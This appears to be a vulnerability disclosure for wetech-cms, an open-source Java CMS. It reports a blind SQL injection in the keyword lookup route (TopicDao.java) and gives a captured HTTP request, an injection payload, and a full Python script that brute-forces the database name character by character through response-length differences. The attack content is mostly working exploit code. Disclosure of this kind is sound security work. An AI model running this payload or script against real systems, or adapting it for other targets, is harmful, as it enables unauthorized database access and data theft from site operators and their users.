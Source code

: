 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/cjbi/wetech-cms

**Software:**

https://github.com/cjbi/wetech-cms

**Vulnerability File:**

wetech-cms-master\wetech-core\src\main\java\tech\wetech\cms\dao\TopicDao.java

![image-20241128204712241](img/image-20241128204712241-1732799189720-1.png)

​	By routing we are located to the tag retrieval function

![image-20241128205044185](img/image-20241128205044185-1732799189721-2.png)

​	and get the following data packet

```http
GET /keyword/1 HTTP/1.1
Host: 172.24.95.182:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.24.95.182:8888/index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: collapase-nav=collapse-nav1; JSESSIONID=561775642554B23D11BFD032DEE33BB4
Connection: close
```

​	Construct payload:

```sql
1' or keyword like (case when ascii(substr(database(),1,1))=1 then 'a' else '' end) and keyword like '
```

​	So we have the following python script

```python
import requests
url="http://172.21.55.165:8888/keyword/1"
url1=url+"' or keyword like (case when ascii(substr(database(),1,1))=10 then 'a' else '' end) and keyword like '"#前十个字符串的10位false包
url2=url+"' or keyword like (case when ascii(substr(database(),1,1))=100 then 'a' else '' end) and keyword like '"#前十个字符串的100位false包
url1_1=url+"' or keyword like (case when ascii(substr(database(),10,1))=10 then 'a' else '' end) and keyword like '"#前一百个字符串的10位false包
url2_1=url+"' or keyword like (case when ascii(substr(database(),10,1))=100 then 'a' else '' end) and keyword like '"#前一百个字符串的100位false包
def req():
    req1 = requests.get(url1)#获取前十个字符串的100位false包
    req2 = requests.get(url2)#获取前十个字符串的100位false包
    req1_1 = requests.get(url1_1)#获取前一百个字符串的10位false包
    req2_1 = requests.get(url2_1)#获取前一百个字符串的100位false包
    r_len1 = len(req1.text)
    r_len2 = len(req2.text)
    r_len1_1 = len(req1_1.text)
    r_len2_1 = len(req2_1.text)
    for i in range(1,12):
        for k in range(32,127):
            payload="' or keyword like (case when ascii(substr(database(),{i},1))={k} then 'a' else '' end) and keyword like '".format(i=i,k=k)#SQL注入payload
            th_url = url + payload
            second = requests.get(th_url)
            s_len = len(second.text)
            if k < 100:
                if i < 10:
                    if s_len != r_len1:
                        print(chr(k), end='')
                        break
                else:
                    if s_len != r_len1_1:
                        print(chr(k), end='')
                        break
            else:
                if i < 10:
                    if s_len != r_len2:
                        print(chr(k), end='')
                        break
                else:
                    if s_len != r_len2_1:
                        print(chr(k), end='')
                        break
def main():
    req()

if __name__ == '__main__':
    main()
```

​	Successfully obtain the library name:

![image-20241127134337976](img/image-20241127134337976-1732686251093-2-1732721872717-1-1732721891177-9-1732797677430-1-1732798458177-1-1732799189721-3.png)
